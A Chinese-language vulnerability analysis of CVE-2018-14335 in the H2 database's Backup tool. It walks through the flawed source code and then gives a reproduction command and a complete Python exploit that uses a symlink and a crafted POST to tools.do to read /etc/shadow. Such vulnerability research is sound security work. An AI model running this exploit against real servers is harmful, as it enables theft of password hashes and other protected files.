



# CVE-2018-14335 CWE-59/276 H2DB 信息泄露

## 漏洞背景

- **符号链接（symlink）**：符号链接是 Linux 和 Unix 系统中用来创建指向其他文件或目录的“快捷方式”的文件。当攻击者能够控制备份目标文件路径时，他们可以创建一个符号链接，指向系统中的敏感文件（例如 `/etc/passwd` 或 `/etc/shadow`）而不是实际的数据库文件。
- **备份功能的处理**：H2 数据库的备份工具允许用户通过指定一个文件路径将数据库内容备份到该路径。在这个过程中，如果路径是一个符号链接并指向一个敏感文件，那么备份过程中就会将符号链接指向的文件包含在备份文件中。
- **权限问题**：通常情况下，数据库用户和系统用户应该只对其数据库文件具有读取权限。但是，在此漏洞中，攻击者可以通过创建符号链接，将目标文件指向系统中他们本不该访问的文件。因为备份操作没有足够的权限检查，所以备份文件中可能包含攻击者无权访问的敏感文件内容。

## 漏洞原理

该漏洞的原理涉及 H2 数据库的 **备份功能**，以及该功能在 **权限验证不充分** 的情况下，攻击者可以通过 **符号链接**（symlink）实现 **信息泄露**。Backup 类允许具有现有 shell 访问权限的攻击者提交一个 POST 请求，该请求创建 h2 数据库可读取的任何文件的备份副本。创建的备份文件可被攻击者读取，从而导致受保护文件的信息泄露。

在执行备份时，H2 数据库并没有检查目标路径是否有符号链接，因此攻击者可以通过指定一个指向敏感文件的符号链接作为备份文件路径。这时，备份工具会将符号链接指向的文件也包含在备份文件中。最终，攻击者就可以通过备份文件来获取不应有权限访问的敏感信息。

## 漏洞定位

1、在 **src\main\org\h2\tools\Backup.java** 文件的第 **108** 行，`process`函数：

- 其中的第 **112** 行，代码中分两种模式来获取需要备份的文件列表：当传入的`db`参数为“空字符串”时采用`FileUtils.newDirectoryStream`；否则调用`FileLister.getDatabaseFiles`，根据 exp 内容，没有传入 db 参数，所以调用的是`FileLister.getDatabaseFiles`获取数据库文件列表。
- 最后第 **131** 行，在处理文件前，代码试图计算一个`base`路径，避免读取目录之外的文件，然后调用了`FileUtils.toRealPath`来解析待备份文件的真实路径，最后处理文件。

```java
    private void process(String zipFileName, String directory, String db,
            boolean quiet) throws SQLException {
        List<String> list;
        boolean allFiles = db != null && db.length() == 0;
        if (allFiles) {
            list = FileUtils.newDirectoryStream(directory);
        } else {
            list = FileLister.getDatabaseFiles(directory, db, true);
        }
        if (list.isEmpty()) {
            if (!quiet) {
                printNoDatabaseFilesFound(directory, db);
            }
            return;
        }
        if (!quiet) {
            FileLister.tryUnlockDatabase(list, "backup");
        }
        zipFileName = FileUtils.toRealPath(zipFileName);
        FileUtils.delete(zipFileName);
        OutputStream fileOut = null;
        try {
            fileOut = FileUtils.newOutputStream(zipFileName, false);
            try (ZipOutputStream zipOut = new ZipOutputStream(fileOut)) {
                String base = "";
                for (String fileName : list) {
                    if (allFiles ||
                            fileName.endsWith(Constants.SUFFIX_PAGE_FILE) ||
                            fileName.endsWith(Constants.SUFFIX_MV_FILE)) {
                        base = FileUtils.getParent(fileName);
                        break;
                    }
                }
                for (String fileName : list) {
                    String f = FileUtils.toRealPath(fileName);
                    if (!f.startsWith(base)) {
                        DbException.throwInternalError(f + " does not start with " + base);
                    }
                    if (f.endsWith(zipFileName)) {
                        continue;
                    }
                    if (FileUtils.isDirectory(fileName)) {
                        continue;
                    }
                    f = f.substring(base.length());
                    f = BackupCommand.correctFileName(f);
                    ZipEntry entry = new ZipEntry(f);
                    zipOut.putNextEntry(entry);
                    InputStream in = null;
                    try {
                        in = FileUtils.newInputStream(fileName);
                        IOUtils.copyAndCloseInput(in, zipOut);
                    } catch (FileNotFoundException e) {
                        // the file could have been deleted in the meantime
                        // ignore this (in this case an empty file is created)
                    } finally {
                        IOUtils.closeSilently(in);
                    }
                    zipOut.closeEntry();
                    if (!quiet) {
                        out.println("Processed: " + fileName);
                    }
                }
            }
        } catch (IOException e) {
            throw DbException.convertIOException(e, zipFileName);
        } finally {
            IOUtils.closeSilently(fileOut);
        }
    }
```

2、**获取需要备份的文件列表**

（1）在 **src\main\org\h2\store\FileLister.java** 文件，第 **87** 行，`getDatabaseFiles`方法。使用 `FileUtils.toRealPath(dir + "/" + db)` 解析路径，然后通过`.endsWith`方法匹配文件后缀是否为`Constants.SUFFIX_LOB_FILE`。

```java
public static ArrayList<String> getDatabaseFiles(String dir, String db, boolean all) {
    ArrayList<String> files = new ArrayList<>();
    String start = db == null ? null : (FileUtils.toRealPath(dir + "/" + db) + ".");
    for (String f : FileUtils.newDirectoryStream(dir)) {
        boolean ok = false;
        if (f.endsWith(Constants.SUFFIX_LOBS_DIRECTORY)) {
            if (start == null || f.startsWith(start)) {
                files.addAll(getDatabaseFiles(f, null, all));
                ok = true;
            }
        } else if (f.endsWith(Constants.SUFFIX_LOB_FILE)) {
            ok = true;
        } else if (f.endsWith(Constants.SUFFIX_PAGE_FILE)) {
            ok = true;
        } else if (f.endsWith(Constants.SUFFIX_MV_FILE)) {
            ok = true;
        } else if (all) {
            if (f.endsWith(Constants.SUFFIX_LOCK_FILE)) {
                ok = true;
            } else if (f.endsWith(Constants.SUFFIX_TEMP_FILE)) {
                ok = true;
            } else if (f.endsWith(Constants.SUFFIX_TRACE_FILE)) {
                ok = true;
            }
        }
        if (ok) {
            if (db == null || f.startsWith(start)) {
                files.add(f);
            }
        }
    }
    return files;
}
```

（2）在 **h2\src\main\org\h2\engine\Constants.java** 文件第 **434** 行，定义了一系列用于区分 H2 数据库中不同类型文件的后缀常量，表明H2 的备份逻辑会遍历目录下所有 `.db`、`.trace.db`、`.h2.db` 等后缀的文件，然后将其视为“数据库文件”进行读取和打包。

```java
    /**
     * The file name suffix of large object files.
     */
    public static final String SUFFIX_LOB_FILE = ".lob.db";

    /***/
    public static final String SUFFIX_LOBS_DIRECTORY = ".lobs.db";

    /**
     * The file name suffix of file lock files that are used to make sure a
     * database is open by only one process at any time.
     */
    public static final String SUFFIX_LOCK_FILE = ".lock.db";

    /**
     * The file name suffix of a H2 version 1.1 database file.
     */
    public static final String SUFFIX_OLD_DATABASE_FILE = ".data.db";

    /**
     * The file name suffix of page files.
     */
    public static final String SUFFIX_PAGE_FILE = ".h2.db";
    /**
     * The file name suffix of a MVStore file.
     */
    public static final String SUFFIX_MV_FILE = ".mv.db";

    /**
     * The file name suffix of a new MVStore file, used when compacting a store.
     */
    public static final String SUFFIX_MV_STORE_NEW_FILE = ".newFile";

    /**
     * The file name suffix of a temporary MVStore file, used when compacting a
     * store.
     */
    public static final String SUFFIX_MV_STORE_TEMP_FILE = ".tempFile";

    /**
     * The file name suffix of temporary files.
     */
    public static final String SUFFIX_TEMP_FILE = ".temp.db";

    /**
     * The file name suffix of trace files.
     */
    public static final String SUFFIX_TRACE_FILE = ".trace.db";

```

综上，在获取需要备份的文件时，没有对“是否为符号链接”或“是否为实际数据库文件”进行严格检查，也没有做权限判断，只是单纯检查文件后缀名，如果满足则加入到待备份的文件列表中。

3、**确定base，处理待备份文件**

（1）回到 **src\main\org\h2\tools\Backup.java** 文件的第 **132** 行，这里计算一个`base`路径，如果能够找到符合条件（后缀为`SUFFIX_PAGE_FILE`或`SUFFIX_MV_FILE`）的文件，则`base`设为该文件的父目录；但如果没有符合条件的文件，那么`base`将保持为空字符串。因此所有文件路径都会通过 `startsWith("")` 的检查，等效于绕过了目录限制。

```java
try {
    fileOut = FileUtils.newOutputStream(zipFileName, false);
    try (ZipOutputStream zipOut = new ZipOutputStream(fileOut)) {
        String base = "";
        for (String fileName : list) {
            if (allFiles ||
                    fileName.endsWith(Constants.SUFFIX_PAGE_FILE) ||
                    fileName.endsWith(Constants.SUFFIX_MV_FILE)) {
                base = FileUtils.getParent(fileName);
                break;
            }
        }
        for (String fileName : list) {
            String f = FileUtils.toRealPath(fileName);
            if (!f.startsWith(base)) {
                DbException.throwInternalError(f + " does not start with " + base);
            }
            if (f.endsWith(zipFileName)) {
                continue;
            }
            if (FileUtils.isDirectory(fileName)) {
                continue;
            }
            f = f.substring(base.length());
            f = BackupCommand.correctFileName(f);
            ZipEntry entry = new ZipEntry(f);
            zipOut.putNextEntry(entry);
            InputStream in = null;
            try {
                in = FileUtils.newInputStream(fileName);
                IOUtils.copyAndCloseInput(in, zipOut);
            } catch (FileNotFoundException e) {
                // the file could have been deleted in the meantime
                // ignore this (in this case an empty file is created)
            } finally {
                IOUtils.closeSilently(in);
            }
            zipOut.closeEntry();
            if (!quiet) {
                out.println("Processed: " + fileName);
            }
        }
    }
}
```

（2）之后调用了`FileUtils.toRealPath`方法解析待备份文件的真实路径，定位至 **h2\src\main\org\h2\store\fs\FileUtils.java** 文件第 **76** 行，这里并没有对解析后的文件路径进行检查。也就是当`fileName`是一个符号链接时，调用`FileUtils.toRealPath`会解析出符号链接指向的真实路径，而不会阻止读取操作。

```java
    /**
     * Get the canonical file or directory name. This method is similar to Java
     * 7 <code>java.nio.file.Path.toRealPath</code>.
     *
     * @param fileName the file name
     * @return the normalized file name
     */
    public static String toRealPath(String fileName) {
        return FilePath.get(fileName).toRealPath().toString();
    }
```

（3）接下来的循环是确保所有待备份处理的文件在`base`目录内，避免读取目录之外的文件。但在 exp 文件中创建了一个`symlink.trace.db`，既不符合`SUFFIX_PAGE_FILE`也不符合`SUFFIX_MV_FILE`，导致`base`为空，进一步导致任何字符串都会满足`f.startsWith("")`，检查实际上就失去了作用。这就导致了对符号链接指向目录外敏感文件的检查失效，攻击者通过创建指向敏感文件（如`/etc/shadow`）的符号链接，可以借助`Backup`工具把这些文件内容读出并打包到 ZIP 文件中。

## 影响版本

h2DB <= 1.4.197

## 环境搭建

启动 docker 环境，h2DB 版本为 1.4.197



## 漏洞复现

1、执行 EXP 文件

```bash
python CVE-2018-14335-EXP.py -H 127.0.0.1:8090 -D /tmp/ -F /etc/shadow
```



2、查看`/tmp/symlink.trace.db`文件可以看到 `/etc/shadow` 文件的内容。这个文件用于存储系统用户的密码和相关认证信息。每一行代表一个用户的条目，字段之间使用冒号（`:`）分隔。

```bash
cat /tmp/symlink.trace.db
```



## EXP分析

```python
# !/usr/bin/python

import requests
import argparse
import os
import random

# 清理符号链接文件
def cleanup(wdir):
    # cmd = "rm {}symlink.trace.db".format(wdir)
    # os.system(cmd)
    # print("[INFO] Cleaned up symlink file.")
    pass


def create_symlink(file, wdir):
    # 创建符号链接，将目标文件（例如 /etc/shadow）映射到指定目录下
    # 这样攻击者就可以通过备份功能访问本不应有权限读取的文件。
    cmd = "ln -s {0} {1}symlink.trace.db".format(file, wdir)
    os.system(cmd)
    print("[INFO] Created symlink for file: {}".format(file))


def trigger_symlink(host, wdir):
    # 触发备份操作，利用符号链接泄露敏感文件。    
    # 随机生成一个输出文件名，确保每次请求的文件名不重复。
    outputName = str(random.randint(1000, 10000)) + ".zip"
    # 发送 GET 请求以初始化连接，获取服务器的响应及其 cookies
    url = 'http://{}'.format(host)
    print("[INFO] Sending GET request to {}".format(url))
    try:
        r = requests.get(url)
        
        # 检查连接是否成功
        if r.status_code != 200:
            print("[ERROR] Failed to connect to target URL. Status code: {}".format(r.status_code))
            return
        print("[INFO] Successfully connected to the target host.")

        # 从响应中提取路径信息，通常会有类似的 URL 格式
        path = r.text.split('href = ')[1].split(';')[0].replace("'", "").replace('login.jsp', 'tools.do')
        url = '{}/{}'.format(url, path)

        # 构造包含备份操作的请求负载
        payload = {
            "tool": "Backup",
            "args": "-file," + wdir + outputName + ",-dir," + wdir
        }

        print("[INFO] Triggering backup with payload: {}".format(payload))
        # 发送 POST 请求触发备份操作
        response = requests.post(url, data=payload)
         # 检查备份请求是否成功
        if response.status_code == 200:
            print("[INFO] Backup triggered successfully, file is zipped in: {}".format(wdir + outputName))
        else:
            print("[ERROR] Failed to trigger backup. Status code: {}".format(response.status_code))
    except Exception as e:
        print("[ERROR] An error occurred while sending requests: {}".format(str(e)))


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    required = parser.add_argument_group('required arguments')
    required.add_argument("-H",
                          "--host",
                          metavar='127.0.0.1:8082',
                          help="Target host",
                          required=True)
    required.add_argument("-D",
                          "--dir",
                          metavar="/tmp/",
                          default="/tmp/",
                          help="Writable directory")
    required.add_argument("-F",
                          "--file",
                          metavar="/etc/shadow",
                          default="/etc/shadow",
                          help="Desired file to read")
    args = parser.parse_args()

    print("[INFO] Starting exploit for target host: {}".format(args.host))
    print("[INFO] Writable directory: {}".format(args.dir))
    print("[INFO] Target file to read: {}".format(args.file))

    # 创建符号链接，将目标文件指向指定的可写目录
    create_symlink(args.file, args.dir)

    # 触发备份操作，从而读取目标文件的内容
    trigger_symlink(args.host, args.dir)

    # 执行完毕后，清理符号链接文件（如果有需要）
    cleanup(args.dir)
    print("[INFO] Exploit execution completed.")
```

## 参考链接

[An issue was discovered in H2 1.4.197. Insecure handling... · CVE-2018-14335 · GitHub Advisory Database](https://github.com/advisories/GHSA-wm64-883p-84j3)

[NVD - CVE-2018-14335 --- NVD - CVE-2018-14335](https://nvd.nist.gov/vuln/detail/CVE-2018-14335)

[H2 Database 1.4.197 - Information Disclosure - Linux webapps Exploit](https://www.exploit-db.com/exploits/45105)
